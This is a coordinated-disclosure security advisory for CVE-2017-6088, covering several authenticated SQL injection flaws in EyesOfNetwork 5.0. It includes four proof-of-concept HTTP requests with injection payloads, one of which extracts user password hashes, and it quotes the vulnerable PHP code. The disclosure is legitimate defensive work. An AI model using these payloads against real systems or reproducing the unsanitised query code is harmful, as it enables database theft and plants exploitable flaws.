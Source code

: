 # [CVE-2017-6088] EON 5.0 Multiple SQL Injection

## Description

EyesOfNetwork ("EON") is an OpenSource network monitoring solution.

## SQL injection (authenticated)

The Eonweb code does not correctly filter arguments, allowing
authenticated users to inject arbitrary SQL requests.

**CVE ID**: CVE-2017-6088

**Access Vector**: remote

**Security Risk**: medium

**Vulnerability**: CWE-89

**CVSS Base Score**: 6.0

**CVSS Vector String**: CVSS:3.0/AV:N/AC:L/PR:H/UI:N/S:U/C:H/I:L/A:L

### Proof of Concept 1 (root privileges)

The following HTTP request allows an attacker (connected as
administrator) to dump the database contents using SQL injections inside
either the `bp_name` or the `display` parameter. These requests are
executed with MySQL root privileges.

```
https://eonweb.local/module/admin_bp/php/function_bp.php?action=list_process&bp_name=&display=%27or%271%27=%271

https://eonweb.local/module/admin_bp/php/function_bp.php?action=list_process&bp_name=%27or%271%27=%271&display=1
```

#### Vulnerable code

The vulnerable code can be found inside the
`module/monitoring_ged/ged_functions.php` file, line 114:

```
function list_process($bp,$display,$bdd){
    $sql = "select name from bp where is_define = 1 and name!='".$bp."'
and priority = '" . $display . "'";
    $req = $bdd->query($sql);
    $process = $req->fetchall();

    echo json_encode($process);
}
```

### Proof of Concept 2

The following HTTP request allows an attacker to dump the database
contents using SQL injections inside the `type` parameter:

```
https://eonweb.local/module/monitoring_ged/ajax.php?queue=active&type=1%27+AND+(SELECT+sleep(5))+AND+%271%27=%271&owner=&filter=equipment&search=&ok=on&warning=on&critical=on&unknown=on&daterange=&time_period=&ack_time=
```

#### Vulnerable code

The vulnerable code can be found inside the
`module/monitoring_ged/ajax.php` file, line 64:

```
if($_GET["type"] == 0){
  $ged_where = "WHERE pkt_type_id!='0'";
} else {
  $ged_where = "WHERE pkt_type_id='".$_GET["type"]."'";
}
$gedsql_result1=sqlrequest($database_ged,"SELECT
pkt_type_id,pkt_type_name FROM pkt_type $ged_where AND pkt_type_id<'100';");
```

### Proof of Concept 3

The following HTTP request allows an attacker to dump the database
contents using SQL injections inside the `search` parameter:

```
https://eonweb.local/module/monitoring_ged/ajax.php?queue=active&type=1&owner=&filter=equipment&search='+AND+(select+sleep(5))+AND+'1'='1&ok=on&warning=on&critical=on&unknown=on&daterange=&time_period=&ack_time=
```


#### Vulnerable code

The vulnerable code can be found inside the
`module/monitoring_ged/ged_functions.php` file, line 129.

```
if($search != ""){
    $like = "";
    if( substr($search, 0, 1) === '*' ){
        $like .= "%";
    }
    $like .= trim($search, '*');
    if ( substr($search, -1) === '*' ) {
        $like .= "%";
    }

    $where_clause .= " AND $filter LIKE '$like'";
}
```


### Proof of Concept 4

The following HTTP request allows an attacker to dump the database
contents using SQL injections inside the `equipment` parameter:

```
https://eonweb.local/module/monitoring_ged/ged_actions.php?action=advancedFilterSearch&filter=(select+user_passwd+from+eonweb.users+limit
1)&queue=history
```


#### Vulnerable code

The vulnerable code can be found inside the
`module/monitoring_ged/ged_functions.php` file, line 493:

```
$gedsql_result1=sqlrequest($database_ged,"SELECT
pkt_type_id,pkt_type_name FROM pkt_type WHERE pkt_type_id!='0' AND
pkt_type_id<'100';");


while($ged_type = mysqli_fetch_assoc($gedsql_result1)){
    $sql = "SELECT DISTINCT $filter FROM
".$ged_type["pkt_type_name"]."_queue_".$queue;

    $results = sqlrequest($database_ged, $sql);
    while($result = mysqli_fetch_array($results)){
        if( !in_array($result[$filter], $datas) && $result[$filter] != "" ){
            array_push($datas, $result[$filter]);
        }
    }
}
```


## Timeline (dd/mm/yyyy)

* 01/10/2016 : Initial discovery.
* 09/10/2016 : Fisrt contact with vendor.
* 23/10/2016 : Technical details sent to the security contact.
* 27/10/2016 : Vendor akwnoledgement and first patching attempt.
* 16/02/2017 : New tests done on release candidate 5.1. Fix confirmed.
* 26/02/2017 : 5.1 release. Waiting for 2 weeks according to our
repsonsible disclosure agreement.
* 14/03/2017 : Public disclosure.

Thank you to EON for the fast response.

## Solution

Update to version 5.1.

## Affected versions

* Version <= 5.0

## Credits

* Nicolas SERRA <n.serra@sysdream.com>

-- SYSDREAM Labs <labs@sysdream.com> 
GPG : 47D1 E124 C43E F992 2A2E 1551 8EB4 8CD9 D5B2 59A1 
* Website: https://sysdream.com/ 
* Twitter: @sysdream